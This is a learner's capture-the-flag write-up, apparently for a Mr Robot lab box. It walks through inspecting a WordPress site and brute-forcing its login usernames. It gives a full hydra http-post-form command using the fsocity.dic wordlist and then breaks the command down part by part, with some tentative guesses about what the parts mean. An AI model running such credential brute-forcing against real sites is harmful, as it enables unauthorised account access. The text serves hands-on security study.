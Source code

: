 ## View page source from the main page

The main page does not have much information in the source other ASCII art "You are not alone"


# wp-admin

What can we do know that this is a wordpress site? Apparently there is a program called `wpscan` that will break into
wordpress site. 

Before that we need to know the username at very least. Now, if you are kind of desperate you could go through all the
value in the fsocity.dic file and try them. But there are LOT of values. Could also try to brute force the username with
hydra using the following:

```

hydra -L fsocity.dic -p test mrrobot.thm http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fmrrobot.thm%2Fwp-admin%2F&testcookie=1:F=Invalid username"


```

You could use use burpsuite to do something similar, though hydra will do parallel requests - I'm not sure if burpsuite
will. 

After further investigation I found that burpsuite will work but it will take approximately an eternity. Burpsuite is
rate limited where hydra will HAMMER the endpoint. With that out of the way, let's breakdown the hydra command

```
    hydra           # Run hydra
    -L $WORDLIST    # Specifies the wordlist
    -p test         # Set password to fixed value
    mrrobot.thm     # Think that this is the website
    http-post-form  # type of command?
    "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fmrrobot.thm%2Fwp-admin%2F&testcookie=1:F=Invalid username"

```

What in the world is mrrobot.thm? I think that this is actually supposed to be the IP address. Finally the part that is
in double quotes is probably the full request path to send. I'm not sure what the `F=Invalid username` part means as
this is not in the request that I made. Perhaps this is just because of the person making the request?

## fsocity.txt file
